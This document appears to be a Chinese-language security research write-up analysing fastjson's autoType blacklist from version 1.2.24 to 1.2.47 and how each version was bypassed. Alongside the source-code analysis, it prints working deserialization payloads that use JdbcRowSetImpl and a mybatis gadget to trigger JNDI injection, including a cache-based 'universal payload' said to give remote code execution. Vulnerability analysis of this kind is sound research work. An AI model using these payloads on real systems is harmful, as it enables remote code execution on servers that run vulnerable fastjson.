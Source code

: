 ## fastjson <=1.2.24

直接进入`loadClass`方法

![image-20221130000039831](img/image-20221130000039831.png)

看`loadClass`方法，加载我们传入的类，然后返回一个Class实例

![image-20221130000249035](img/image-20221130000249035.png)

## fastjson 1.2.25-1.2.41

加了一个`checkAutoType`方法来检测

![image-20221130000416411](img/image-20221130000416411.png)

如果`autoTypeSupport`为`true`，先检测白名单，如果中了的话，直接通过

再过黑名单，如果中了的话，直接抛出异常

![image-20221130000822320](img/image-20221130000822320.png)

如果`autoTypeSupport`为`false`，先检测黑名单，如果中了的话，直接抛出异常

再过白名单，如果中了的话，直接过

![image-20221130001212534](img/image-20221130001212534.png)

白名单默认为空

![image-20221130001528703](img/image-20221130001528703.png)

黑名单：

![image-20221130001629858](img/image-20221130001629858.png)

我们需要`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，再黑名单中

绕过：

![image-20221130001942902](img/image-20221130001942902.png)

直接在类名前后加上`L`和`;`

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.42

https://github.com/LeadroyaL/fastjson-blacklist（收集了fastjson的hash值）

使用了hash值，过滤了前后的`L`和`;`

```java
long BASIC = -3750763034362895579L;
long PRIME = 1099511628211L;
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    className = className.substring(1, className.length() - 1);
}
```

`autoTypeSupport`为`true`

![image-20221130002822308](img/image-20221130002822308.png)

`autoTypeSupport`为`false`

![image-20221130002855487](img/image-20221130002855487.png)

黑名单用了hash值来表示

我们利用双写来绕过

payload：

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.43

更新的内容，添加了两个判断，**如果类名首尾是`L;`、并且两个LL开头就直接抛出异常**

```java
 long BASIC = -3750763034362895579L;
            long PRIME = 1099511628211L;
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }

```

还可以使用这个`[`符号

![image-20221130084106365](img/image-20221130084106365.png)

根据报错信息，直接构造payload



![image-20221130084542720](img/image-20221130084542720.png)

![image-20221130084617531](img/image-20221130084617531.png)



```java
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.45

1.2.44开始就直接把上述两种绕过过滤了，只要`[`开头就会抛出异常

既然符号绕过不行，我们找黑名单外的类名



### mybatis3 <=3.4.6 

```xml
<dependency>
            <groupId>org.mybatis</groupId>
            <artifactId>mybatis</artifactId>
            <version>3.4.6</version>
        </dependency>
```

在`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`类中

`setProperties`可以触发JNDI注入，

![image-20221130090003362](img/image-20221130090003362.png)

payload

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://127.0.0.1:1099/hack\"}}";
        JSON.parse(jsonString);
```

限制：还是需要`AutoTypeSupport`开启

## fastjson 1.2.47

mybatis在1.2.46直接被过滤了，上面的方法都不行

通杀payload

```java
{
	{
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	{
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://127.0.0.1:1099/hacked",
		"autoCommit": true
	}
}

```

payload分析：

1.开启了autoTypeSupport和关闭autoTypeSupport，因为白名单默认为空，而且在黑名单也找不到Class类，也会最终进入findClass

![image-20221130131020470](img/image-20221130131020470.png)

![image-20221130131605252](img/image-20221130131605252.png)

进入findClass方法



IdentifyHashMap存了很多基础类，匹配到直接返回

![image-20221130132042934](img/image-20221130132042934.png)

返回了`java.lang.Class`

进入`deserializer.deserialze`

![image-20221130132355277](img/image-20221130132355277.png)

`objVal=strVal`都是com.sun.rowset.JdbcRowSetImpl

![image-20221130133255771](img/image-20221130133255771.png)

![image-20221130132535484](img/image-20221130132535484.png)

进入`loadClass`方法

默认缓存`cache`开启，首先去缓存中查找，第一次加载肯定找不到，就进入else，在里面**完成了类加载并且写入了缓存，根本不会经过黑名单验证**

![image-20221130132646366](img/image-20221130132646366.png)



payload中的第二部分进行parse的时候

![image-20221130133524043](img/image-20221130133524043.png)

就可以成功返回`com.sun.rowset.JdbcRowSetImpl`的class实例

![image-20221130133923947](img/image-20221130133923947.png)

从而实现一个RCE。



关闭`autoTypeSupport`直接在缓存中获取类的class实例，达到RCE

![image-20221130134754374](img/image-20221130134754374.png)
